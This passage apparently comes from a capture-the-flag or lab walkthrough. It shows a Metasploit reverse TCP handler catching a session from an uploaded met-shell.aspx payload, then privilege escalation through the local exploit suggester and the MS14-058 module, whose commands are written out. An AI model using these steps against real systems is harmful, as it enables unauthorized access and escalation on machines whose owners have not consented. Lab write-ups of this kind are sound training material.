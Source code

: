 Then use the “_run_” command to start the reverse tcp handler. In the browser, execute the _met-shell.aspx_ payload and wait for a session to open up in Metasploit.

![](../images/max/1035/1*8qr962N2EhGfjSOYVE1zSA.png)

Perfect! Next, use the local exploit suggester module to see which exploits the system is vulnerable to.

![](../images/max/1189/1*NHjcuWBAByttFKC56LVZuQ.png)

We’ll go with the second one MS14–058.

```text
use exploit/windows/local/ms14_058_track_popup_menu
set session 1
run
```

It opens up another session.

![](../images/max/1088/1*2gb6IknR6r5uGZ18RQnfow.png)
